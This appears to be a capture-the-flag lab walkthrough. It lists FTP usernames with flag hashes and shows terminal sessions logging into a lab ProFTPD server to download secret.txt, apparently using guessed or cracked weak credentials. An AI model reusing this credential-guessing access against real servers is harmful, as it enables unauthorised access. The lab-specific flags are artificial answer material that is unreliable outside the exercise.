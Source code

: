 |user|flag|
|---|---|
|sysadmin|260ca9dd8a4577fc00b7bd5810298076|
|auditor|098f6bcd4621d373cade4e832627b4f6|
|rooty|e529a9cea4a728eb9c5828b13b22844c|
|demo|d6a6bc0db10694a2d90e3a69648f3a03|
|anon|1bc29b36f623ba82aaf6724fd3b16718|
|administrator|21232f297a57a5a743894a0e4a801fc3|
|diag|12a032ce9179c32a6c7ab397b9d871fa|

```
root@attackdefense:~# ftp 192.213.192.3
Connected to 192.213.192.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.213.192.3]
Name (192.213.192.3:root): rooty
331 Password required for rooty
Password:
230 User rooty logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (67.4196 kB/s)
ftp> bye
221 Goodbye.
root@attackdefense:~# cat secret.txt  
e529a9cea4a728eb9c5828b13b22844c
```

```
root@attackdefense:~# ftp 192.213.192.3
Connected to 192.213.192.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.213.192.3]
Name (192.213.192.3:root): demo
331 Password required for demo
Password:
230 User demo logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (64.9729 kB/s)
ftp> bye
221 Goodbye.
```